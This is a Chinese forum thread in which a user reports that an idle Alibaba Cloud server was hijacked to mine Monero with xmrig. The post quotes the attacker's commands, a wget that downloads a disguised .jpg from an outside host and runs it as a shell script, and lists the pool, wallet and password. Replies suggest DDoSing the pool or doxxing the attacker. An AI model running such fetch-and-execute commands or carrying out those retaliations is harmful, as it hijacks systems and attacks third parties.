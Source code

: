 # 利用xmrig挖矿的狗 逼能不能治一治它？


<i class="pstatus"> 本帖最后由 laogui 于 2020-11-25 03:35 编辑 </i><br />
<br />
RT<br />
有一台吃灰的阿里云机，被人入侵了，利用xmrig挖矿<br />
幸亏阿里云有提醒<br />
这狗 逼执行的命令代码：<br /><div class="blockcode"><div id="code_nQT"><ol><li>wget http://iems.net.cn/file/4.jpg -O /tmp/4.sh &amp;&amp; bash /tmp/4.sh 123</ol></div><em onclick="copycode($('code_nQT'));">复制代码</em></div><div class="blockcode"><div id="code_LF7"><ol><li>wget http://iems.net.cn/file/config.jpg -O /root/moneroocean/config.json</ol></div><em onclick="copycode($('code_LF7'));">复制代码</em></div><br />
看了shell脚本和config.json文件，得到以下内容<br />
矿池：gulf.moneroocean.stream<br />
账号：48BBjhM6wjtVPPteiAAyy4FfQogMVvJdSWqbT3T8L9cGb9NhUPRtMHkYVmzLgpYEiuh9B6J1yrXhPdjtnmf7rfQyA73rWaF<br />
密码：123<br />
<img id="aimg_cnBL6" onclick="zoom(this, this.src, 0, 0, 0)" class="zoom" src="https://s3.jpg.cm/2020/11/25/rC0mt.png" onmouseover="img_onmouseoverfunc(this)" onload="thumbImg(this)" border="0" alt="" /><br />
<img id="aimg_y2GJg" onclick="zoom(this, this.src, 0, 0, 0)" class="zoom" src="https://s3.jpg.cm/2020/11/25/rCz8C.png" onmouseover="img_onmouseoverfunc(this)" onload="thumbImg(this)" border="0" alt="" /><br />
有没有办法治一治这种狗 逼的?<br />
<br />
<br />
<br />


这个真治不了。。。除了你能追溯到他个人电脑了！<br />
<br />
这玩意，矿池是公开的，钱包公钥你知道没卵用，也不知道谁的！<br />
<br />
直接D他矿池吧，D死矿池，就出不来块，LOC大神多！

不知道，不太懂挖矿

社工他github地址呗

<div class="quote"><blockquote><font color="#999999">铅笔 发表于 2020-11-25 04:38</font><br />
<font color="#999999">社工他github地址呗</font></blockquote></div><br />
你怎么确定gayhub就是他的。。。而且谁还实名gayhub。。。
